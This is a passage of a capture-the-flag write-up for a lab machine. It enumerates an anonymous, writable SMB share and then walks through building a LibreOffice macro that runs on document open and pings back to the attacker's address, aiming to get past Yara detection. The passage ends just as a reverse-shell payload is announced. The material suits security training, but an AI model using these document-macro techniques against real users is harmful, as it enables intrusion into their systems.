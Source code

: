 
HTML comments contain instructions about future features, which are not yet implemented
If you ask yourself “Where is this malware dropbox?” then look at port 445. I listed shares and found one called “malware_dropbox” (type empty password):

root@Kali:~# smbclient -N -L \\\\10.10.10.144
Enter WORKGROUP\root's password:

        Sharename       Type      Comment
        ---------       ----      -------
        IPC$            IPC       Remote IPC
        malware_dropbox Disk
...
A quick test showed that I could also mount this share and write files to it, which disappeared only seconds after writing them:

root@Kali:~# mount //10.10.10.144/malware_dropbox /mnt/smb/
Password for root@//10.10.10.144/malware_dropbox:
root@Kali:~# cd /mnt/smb/
root@Kali:/mnt/smb# ls
root@Kali:/mnt/smb# touch f1 && ls
f1*
root@Kali:/mnt/smb# sleep 3
root@Kali:/mnt/smb# ls
root@Kali:/mnt/smb#
The goal now was to craft a malicious macro, possibly bypassing these nasty Yara rules mentioned in the blog post.

Creating the macro
The following is a quick walkthrough for how to create macros. You have to have LibreOffice installed, which is quite a sizable download. Alternatively you could also try your luck getting one out of Metasploit (cf. here), but I guess the Yara rules would probably detect it. The manual way gives you full control over the payload.

Now, open LibreOffice Calc, then go to “Tools”, “Macros”, “Organize Macros”, then “Basics”:


Open macro organizer
Now select the current document (“Untitled 1”, unless you already saved the document), and hit “New”:


Open macro organizer
This will create a new module. Give it a name and you will be dropped into the editor. To test for basic command execution I first added a simple pingback payload: “ping -n 1 10.10.15.130":


Create pingback macro
Now save the file (I named it “pingback.ods”), then close the macro editor. Then open “Tools”, “Customize”, select the “Open Document” event, and select your module’s Main function. Then hit “OK”:


Configure macro to execute when document is opened
This was it and I was ready to test the file. I uploaded it to the malware dropbox and waited for a ping, which arrived after only a few seconds:


Receiving a ping from the macro
I went on to get a reverse shell using the following payload:
